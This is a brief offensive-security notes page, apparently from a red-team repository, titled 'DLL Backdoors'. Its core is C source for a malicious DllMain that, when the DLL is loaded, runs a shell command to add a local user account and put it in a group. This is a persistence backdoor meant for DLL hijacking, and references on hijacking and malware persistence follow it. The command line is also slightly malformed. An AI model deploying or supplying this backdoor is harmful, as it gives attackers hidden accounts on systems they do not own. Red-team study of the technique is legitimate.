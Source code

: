 # DLL Backdoors

## 01 - Manual

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason,
    LPVOID lpReserved) {
    switch(fdwReason) { 
        case DLL_PROCESS_ATTACH:
         system("cmd /c net user <username> <password> /add /y & net user localgroup \"<group_name>\" \"<username>\" /add /y")
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }

    return TRUE;  
}
```

---
## References

### TBHaxor

- [TBHaxor: Loading DLLs Using CPP in Windows](https://tbhaxor.com/loading-dlls-using-cpp-in-windows/)

### Cocomelonc

- [Cocomelonc: Malware Persistence Part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)

### Elliot on Security

- [Elliot on Security: Perfect DLL Hijacking](https://elliotonsecurity.com/perfect-dll-hijacking/)

### DMCXBlue

- [DMCXBlue: DLL Search Order Hijacking](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1574-hijack-execution-flow/dll-search-order-hijacking)